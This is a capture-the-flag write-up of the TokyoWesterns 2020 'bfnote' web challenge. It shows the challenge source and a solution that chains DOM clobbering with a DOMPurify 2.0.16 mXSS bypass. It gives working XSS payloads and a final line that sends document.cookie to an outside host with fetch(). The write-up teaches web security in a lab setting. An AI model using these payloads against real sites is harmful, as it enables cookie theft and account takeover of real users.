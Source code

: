 TokyoWesterns 2020 is over and was awesome.
Many amazing challenges of all kind, in this write up I will explain how we solved "bfnote", a well-written web challenge.
Spoiler - it was not the intended solution ;)

# BFNOTE

### Problem

Share your best Brainf*ck code at [bfnote](https://bfnote.chal.ctf.westerns.tokyo/)

Browsing the page presents us with a nice <textarea> and a submit button.
After posting a note we are being redirected to the page that presentes the note itself with a nice "report" button.
An XSS challenge with a Brainf*ck twist, that should be fun . . .

We quickly check the sources of these pages, giving us a little more information about what's going on...

1. /js/bf.js
2. /index.php?source

---

### <u>/js/bf.js</u>

---

A neat Javascript that is responsible of decoding and interpreting the Brainf*ck note.

```javascript
let program, pc, buf, p;
let statusCode = 0; // 0: not running, 1: running, 2: exit successfully, 3: exit with an error
let output = '';
let steps = 0;
const maxSteps = 1000000;

function checkStep() {
  steps++;
  if (steps > maxSteps) {
    throw new Error('maximum steps exceeded')
  }
}

function pinc() {
  p++;
}

function pdec() {
  p--;
}

function inc() {
  buf[p]++;
}

function dec() {
  buf[p]--;
}

function putc() {
  output += String.fromCharCode(buf[p]);
}

function getc() {
  console.err('not implemented');
}

function lbegin() {
  if (buf[p] === 0) {
    let i = pc+1;
    let depth = 1;
    while (i < program.length) {
      if (program[i] === '[') {
        depth++;
      }
      if (program[i] === ']') {
        depth--;
        if (depth === 0) {
          break;
        }
      }

      i++;
      checkStep();
    }

    if (depth === 0) {
      pc = i;
    }
    else {
      throw new Error('parenthesis mismatch')
    }
  }
}

function lend() {
  if (buf[p] !== 0) {
    let i = pc-1;
    let depth = 1;
    while (0 <= i) {
      if (program[i] === ']') {
        depth++;
      }
      if (program[i] === '[') {
        depth--;
        if (depth === 0) {
          break;
        }
      }

      i--;
      checkStep();
    }

    if (depth === 0) {
      pc = i;
    }
    else {
      throw new Error('parenthesis mismatch')
    }
  }
}

function writeOutput() {
  if (statusCode !== 3) {
    if (CONFIG.unsafeRender) {
      document.getElementById('output').innerHTML = output;
    } else {
      document.getElementById('output').innerText = output;
    }
  }
}

function initProgram() {
  // load program
  program = document.getElementById('program').innerText;
  document.getElementById('program').innerHTML = DOMPurify.sanitize(program).toString();

  // initialize
  pc = 0;
  buf = new Uint8Array(30000);
  p = 0;

  statusCode = 0;
}

function runProgram() {
  statusCode = 1;
  try {
    while (pc < program.length) {
      switch (program[pc]) {
        case '>':
          pinc();
          break;
        case '<':
          pdec();
          break;
        case '+':
          inc();
          break;
        case '-':
          dec();
          break;
        case '.':
          putc();
          break;
        case ',':
          getc(); // not implemented
          break;
        case '[':
          lbegin();
          break;
        case ']':
          lend();
          break;
        case '=':
          console.log('=)');
          break;
        case '/':
          console.log(':/');
          break;
        case ' ':
          break;
        default:
          throw new Error(`invalid op: ${program[pc]}`)
      }
  
      pc++;
      checkStep();
    }

    CONFIG = window.CONFIG || {
      unsafeRender: false
    };

    statusCode = 2;
  }
  catch {
    statusCode = 3;
    return;
  }
  // no xss please
  output = output.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
  writeOutput();
}

window.addEventListener('DOMContentLoaded', function() {
  initProgram();
  runProgram();
});
```

A few things we thought are worth mentioning:

- initProgram takes our (escaped) note (using `innerText` thus making it unescaped) and passes it through `DOMPrufiy.sanitize`, which **should** make it impossible to inject any malicious tag that results in javascript execution.
- If runProgram catches an exception while parsing the note - it **will not** write the output to the page.
- Before calling `writeOutput()`, every `<, >` will be escaped.
- if window.CONFIG is present, and it's unsafeRender member **evaluates to true** - the output will be appended to the page using `innerHTML` instead of `innerText`.
  First thing that comes to mind is obviously - **`Dom Clobbering Attack`**.

I will not go over the rules of Brainf\*ck, but I will note that this javascript interpreter will throw an exception if an illegel Brainf\*ck character is in the note, **unless** it is inside a Brainf\*ck loop (surrounded by `[]`).

To make things easier, we wrote a little Python script that encodes a given string as a Brainf\*ck script:

```python
def encode(string):
	p = 0
	output = ''
	for i in string:
		output += p * "-"
		output += ord(i) * "+" + "."
		p = ord(i)
	return output
```

That was the easiest way doing it, but hardly the most efficient way ;)

---

### /<u>index.php</u>

---

```php
<?php
require 'config.php';

header('X-Frame-Options: DENY');

$action = $_SERVER['REQUEST_METHOD'];

$db = new SQLite3('/tmp/db.sqlite3');
$db->exec('create table if not exists notes (id text, content text)');

if ($action === 'POST') {
  $content = $_POST['content'];
  $id = bin2hex(random_bytes(8));

  $content = preg_replace('/[^a-zA-Z0-9<>\[\]+-.,=\/\n\ ]/', '', $content);
  $content = str_replace('<', '&lt;', $content);
  $content = str_replace('>', '&gt;', $content);

  $stmt = $db->prepare('insert into notes values (:id, :content)');
  $stmt->bindValue(':id', $id, SQLITE3_TEXT);
  $stmt->bindValue(':content', $content, SQLITE3_TEXT);
  $stmt->execute();

  header("Location: /?id=${id}");
} else if ($action === 'GET') {
  if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    exit();
  }

  if (!empty($_GET['id'])) {
    $id = $_GET['id'];
  
    $stmt = $db->prepare('select content from notes where id=:id');
    $stmt->bindValue(':id', $id, SQLITE3_TEXT);
    $res = $stmt->execute()->fetchArray(SQLITE3_ASSOC);

    if (empty($res)) {
      header('Location: /');
    }
  
    $content = $res['content'];
  }
}
?>
<!doctype html>
<html>
  <head>
    <title>bfnote</title>
<?php
  if (!empty($_GET['id'])) {
?>
    <script src="/js/bf.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.16/purify.min.js"></script>
    <script src="https://www.google.com/recaptcha/api.js"></script>
<?php
  }
?>
  </head>
  <body>
<?php
  if (empty($_GET['id'])) {
?>
    <!-- <a href="/?source">source</a> -->
    <form action="." method="post">
      <textarea name="content"></textarea>
      <input type="submit" value="share!"></input>
    </form>
<?php
  } else {
?>
    <script>
      function onSubmit(token) {
        fetch(`/report.php`, {
          method: 'post',
          headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
          },
          body: `id=<?=$id?>&token=${token}`,
        }).then(r => r.json()).then(d => {
          if (d['success']) {
            alert('successfully shared');
          }
          else {
            alert(`error: ${d['msg']}`);
          }
        })
      }
    </script>
    <div id="program"><?=$content?></div>
    <div id="output"></div>
    <form id="share">
      <button class="g-recaptcha" data-sitekey="<?=$SITE_KEY?>" data-callback="onSubmit">report</button>
    </form>
<?php
  }
?>
  </body>
</html> 
```

Going over the sources, it was clear that SQLi was not the way to go for this one.
That's nice, we understand a a little bit more about what's going on.
After inspecting this file, a few leads came to mind that I thought should be mentioned here.

- `/js/bf.js` is loaded **before** `purify.min.js` creating a possible undefined behavior.
- There is no `exit()` after setting the `Location` header, the body is sent along with the redirect response.
  We also noticed that there is a Javascript injection in the response if we set `?id` to a malicious payload.
  This is unfortunately not exploitable as the browser does not render the response's body if a `302` status is sent from the server.
- Using HPP, we can set `content` to an array, causing a weird behavior which is also not exploitable.

---

## Mutating HTML

Pretty quick we managed to get the `DOM Clobbering` working so we can trigger the `innerHTML` flow.

```html
<form id="CONFIG"><input type="text" id="unsafeRender"></input></form>
```

The main problem now is `DOMPurify.sanitize`, it pretty much prevents us from doing anything other than that clobbering attack...

Quick search about `DOMPurify` vulnerabilities and exploits brings up this article:

- https://research.securitum.com/dompurify-bypass-using-mxss/

This is a very interesting idea, trying the suggested payload gives us something interesting:

```html
<!-- payload -->
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">

<!-- DOMPurify.sanitize's output -->
<div id="program">
    <svg></svg>
    <p></p>
    <style><a id=</style>
    <img src="1">
    &gt;
</div>
```

Sadly, not XSS for us **BUT** there is a new <style> element in the page now! Trying to simply post a <style></style> note results in an empty output from `sanitize`, so, is it interesting? Consider the next payload:

```html
<svg></p><style id=output><a id="</style><img src=1 onerror=alert(1)>">
```

Posting this payload will result in a new <style> element with the `id` "output"!
The first slightly interesting thing we managed to get - **CSS Injection**

```html
[<svg></p><style id=output><a id="</style><img src=1 onerror=alert(1)>">]
```

Followed by the output of:

```python
print encode("html{background-color: blue}")
```

Nice, if only the flag was an attribute of an element on the page, we could leak it!

## The solution

At this point, we decided to look a little more into `DOMPurify`, visiting the project's Git page!
Interestingly enough, `bfnote` uses `/dompurify/2.0.16/purify.min.js` and the official git page lists **`2.0.17`** as the Latest release!

Let's have a look at the changelog!
https://github.com/cure53/DOMPurify/compare/2.0.16...2.0.17

Specifically:
https://github.com/cure53/DOMPurify/compare/2.0.16...2.0.17#diff-f44bc3a1bfaa31000b8f4f1359dba82a

Hmm... seems like the library is not perfect just yet, and that the version used in this challenge is still vulnerable to some mXSS!
Finally, we craft a neat payload that successfully appends a tag with malicious attributes!

```html
<math><mtext><table><mglyph><style><div><img src=x onerror=tttt>CLICKME</div>
<!-- DOMPurify.sanitize's output -->
<div id="program">
    <math>
        <mtext>
            <mglyph>
                <style></style>
            </mglyph>
            <div>
                <img src="x" onerror="tttt">CLICKME
            </div>
            <table></table>
    </mtext>
    </math>
</div>
```

Quickly checking the browser's console: `Uncaught ReferenceError: tttt is not defined`
Wohoo! From this point it was simply putting it all together to get it over the line:

```html
[<math><mtext><table><mglyph><style><div><img src=x onerror=share.outerHTML+=window.output.innerText>CLICKME</div>][<form id="CONFIG"><input type="text" id="unsafeRender"></input></form>]
```

Followed by the output of:

```python
print encode("<img src=x onerror='fetch(\"magnumctf.com/\" + btoa(document.cookie))'>")
```

And there you have it: **`flag=TWCTF{reCAPTCHA_Oriented_Programming_with_XSS!}`**
reCaptcha what? HUH? oops...
